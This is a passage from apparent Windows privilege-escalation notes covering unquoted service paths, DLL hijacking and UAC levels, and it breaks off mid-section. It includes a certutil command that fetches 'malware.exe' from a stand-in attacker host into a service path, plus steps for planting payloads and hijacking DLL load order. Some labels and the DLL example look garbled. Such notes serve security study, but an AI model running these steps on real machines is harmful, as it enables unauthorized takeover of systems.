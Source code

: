 ```c
.\accesschk64.exe /accepteula -wvud <PATH>
```

 - Move the payload to the vulnerable location using the required name for the attack to work.
	 - For example to exploit the unquoted path: `C:\Example\Folder one\service.exe`
	 - Move a payload named `Folder.exe`. It should look like this: `C:\Example\Folder.exe`

```python
certutil.exe -urlcache -f http://attacker/malware.exe C:\Example\Folder.exe
```


### DLL Hijacking
---

Two ways to DLL hijacking:
1. Find a DLL used by the victim binary and overwrite with a malicious DLL
2. Trick the default search order used to load DLLs

- Listing used DLLs for a service with tasklist (requires admin)

```c
tasklist /svc | findstr "<service name>"
tasklist /m /fi "pid eq <PID of SERVICE>"
```

- Listing used DLLs for a service with ListDLLs from sysinternals (requires admin)

```c
.\listdlls.exe /accepteula <SERVICE>
```

- Hijack the search order for loading DLLs.  The specific search order is the following one:
	1. The folder specified by `lpFileName` (the directory from which the app is running)
	2. System folder, get using `GetSystemDirectory()` (`C:\Windows\System32`)
	3. 16-bit system folder (`C:\Windows\System`)
	4. Windows directory, get using `GetWindowsDirectory()` (`C:\Windows`)
	5. Current directory
	6. Directories listed in the `PATH'

- Example:
	- The regular DLL is found within the Windows Directory (`C:\Windows`)
	- The malicious DLL is found within the System Folder (`C:\Windows\System32`)

### UAC Bypass
---
UAC levels:
  0. no prompt
  1. prompt for credentials on the secure desktop
  2. prompt for consent on the secure desktop
  3. prompt for credentials on the normal desktop
  4. prompt for consent on the normal desktop
  5. prompt for consent for non-windows binaries

Enumerate UAC with Powershell:
- Check if UAC is enabled. If the result is 1, UAC is enabled.
